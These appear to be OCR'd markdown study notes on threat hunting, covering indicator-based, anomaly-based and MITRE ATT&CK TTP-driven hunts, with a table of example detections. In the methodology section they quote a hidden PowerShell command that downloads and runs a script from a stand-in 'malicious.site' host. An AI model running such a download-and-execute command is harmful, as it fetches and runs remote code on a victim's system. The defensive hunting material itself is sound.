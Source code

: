 
## **Which One Should You Use?**  
- **Start with Indicator-Based** → Quick wins, good for SOC teams.  
- **Combine with Anomaly-Based** → For advanced threats (e.g., fileless malware).  

### **Real-World Hybrid Example:**  
1. **Threat Intel** reports Emotet using `rundll32.exe` for DLL sideloading. (**Indicator-Based**)  
2. While hunting, you notice `wmic.exe` spawning `mshta.exe`—an unusual combo. (**Anomaly-Based**)  



### **Final Tips for Effective Hunting**  
- **Blend both mindsets** for maximum coverage.  
- **Automate IOC searches** but keep manual anomaly checks.  
- **Document findings** to improve future hunts.  

---
---
### **Performing Threat Hunts: Two Key Approaches**  

Threat hunting can be conducted in two primary ways:  
1. **Attack-Based Hunting** (Focused on known adversary tactics)  
2. **Analytics-Based Hunting** (Focused on statistical anomalies)  

Let’s break down **how to perform hunts in each style**, with **real-world examples, methodologies, and tools**.  

---

## **1. Attack-Based Hunting (TTP-Driven)**  
### **Definition:**  
Hunting based on **known adversary Tactics, Techniques, and Procedures (TTPs)** from frameworks like **MITRE ATT&CK**.  

### **When to Use?**  
✔ After a threat intel report on a new attack method (e.g., Log4Shell).  
✔ To check for **specific APT group behaviors** (e.g., Lazarus Group’s macOS malware).  

### **Methodology:**  
1. **Select a TTP** (e.g., "T1059 - Command-Line Interface").  
2. **Form a Hypothesis** (e.g., "Attackers may use PowerShell for lateral movement").  
3. **Query Logs** (EDR, SIEM) for suspicious command executions.  
4. **Investigate Matches** (e.g., `powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"`).  

### **Example Hunts:**  
| **Tactic (MITRE ATT&CK)**        | **Hunting Query**                                              |
| -------------------------------- | -------------------------------------------------------------- |
| **Persistence (T1547.001)**      | Find `Registry Run Keys` modified by non-admin users.          |
| **Lateral Movement (T1021.004)** | Detect `WMI` or `PsExec` spawning `cmd.exe` on multiple hosts. |
| **Defense Evasion (T1070.004)**  | Search for `event logs cleared` via `wevtutil.exe`.            |
